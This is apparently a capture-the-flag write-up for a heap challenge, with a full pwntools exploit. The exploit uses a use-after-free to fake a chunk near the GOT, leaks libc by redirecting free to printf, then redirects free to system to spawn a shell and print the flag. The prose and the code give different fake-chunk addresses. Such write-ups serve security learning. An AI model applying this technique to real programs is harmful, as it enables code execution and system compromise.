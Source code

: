 ## Level: Medium

### Challenge

My first heap challenge, thank you @p0ch1ta for this super cool challenge. The intended way is **House of Muney** which is *leaklesss* heap exploit but I cheese'd it with getting a **leak** :)

More about House of Muney: https://maxwelldulin.com/BlogPost/House-of-Muney-Heap-Exploitation

### Checksec

![checksec](https://github.com/user-attachments/assets/c7e637d7-c3d5-4471-8c6a-f4e995039adf)

### How to leak? 

![menu](https://github.com/user-attachments/assets/2b949dc9-4cb1-4208-8fc7-b56701a8e267)

They give us an obvious vulnerability with `2. Change chunk size` but I didn't use it :P There is already **UAF** in this binary and I think that's all you need to get a shell. 

**TLDR: Create a fake chunk using UAF and overwrite free@got with printf to leak an address in libc then overwrite it again with system("/bin/sh")**

Here's my approach (The order matters!!):

```
1 - Malloc chunk 0 and chunk 1
2 - Free 1 then and 0
```

![free2](https://github.com/user-attachments/assets/baacd9f6-ec15-419b-a1d4-6fb438b15b0b)

Mind that `chunk 0` is behind `chunk 1`. 

```
3 - Edit free'd chunk 0 to fake a chunk (UAF)
```
![uaf1](https://github.com/user-attachments/assets/9078a95b-29db-4884-9abd-1af8c2f3f638)

Now `chunk 0` is pointing to `AAAAAAAA` instead of pointing to the `next chunk` (chunk 1). Of course we don't want chunk 0 to point some random address. We can make it point to a **mallocable** address close to free@got. 

![gotoffree](https://github.com/user-attachments/assets/406238ec-be12-4aa0-a2b1-75f209ac626e)

There are some caveats to fake a chunk and turns out `0x453508` is perfect. It's near got entries and most importantly mallocable. Make sure that `chunk 0 and 1` have *enough size* when we're reading into them to overwrite **free@got**. Which is at least `40 bytes` in this case. 

```
4 - Malloc twice so fake chunk gets allocated and points to free@got
```

![empty](https://github.com/user-attachments/assets/6ef3a766-c2a5-41ad-b77d-f7ba363b9acb)

Tcache is empty, this means that our `fake chunk` is allocated. 

```
5 - Use "4. Edit chunk" option to start reading into fake chunk's next pointer. Which is somewhere near got entries. 
```

![readgots](https://github.com/user-attachments/assets/2c7867b9-1328-412e-94ab-78acb88873b8)

This looks good! But how are we going to get a leak? 

```
6 - Overwrite free@got with printf and use format strings to leak from the stack
7 - Free the fake chunk to call printf (specify format strings to leak info about addresses on the stack)
```

![leaksss](https://github.com/user-attachments/assets/89d35390-01fa-4434-b9d1-de18196c3bfd)


Now that we have our leak in libc, we can calculate the offset to `libc base` and we are almost done. 

```
8 - Overwrite free@got again but with system!
9 - Free the fake chunk to call system("/bin/sh")
```

![flaggg](https://github.com/user-attachments/assets/9999e3cf-a772-47a6-a610-841707b260e3)

Getting a shell was quite painful so I just write out the flag. This was really fun even tho it wasn't intented solution! I think I learned a lot from this and I must include following writeups that inspired me for this solution:

https://www.youtube.com/watch?v=qVLXHNqxpkE (by c0nrad)

https://github.com/MarcoPellero/writeups/blob/main/backdoor/konsolidator/writeup.md

### Full Exploit

```
#!/usr/bin/env python3

from pwn import *
"""
p = gdb.debug("./chall_patched", gdbscript='''
    continue 
''')
"""

p = process("./chall_patched")

# allocate two chunks
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# free them 
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("0")

# USE AFTER FREE
# change chunk's pointer to somewhere (mallocable) near got entries
near_got = 0x403508 
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(p64(near_got))

# malloc twice
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# overwrite the got entry of "free" with "printf"
# leak an address in libc with format strings
payload = b"%17$pAAA" # this is rdi
payload += b"A" * 24
payload += p64(0x401120)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# leak(free) and calculate the offset to "system"
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b"Data")
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()

libc_leak = p.recvline()
print(libc_leak)
libc_leak = int(libc_leak[3:17], 16)

libc_base = libc_leak - 544229
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# overwrite the got entry of "free" with "system"
# write out the flag
payload = b"//bin/sh" # rdi
payload += b" $(cat flag)"
payload += b" " * 12
payload += p64(system)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# call system("/bin/sh...")
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.interactive()
```

<img src=https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExemJpd2ZkZ2o5Nnk0cTJsM3F6cnkwY3VlZG51bnloczVyMGhsa29ibiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kbuqdYYYjuHn2/giphy.webp>

*Heap is fun :P*
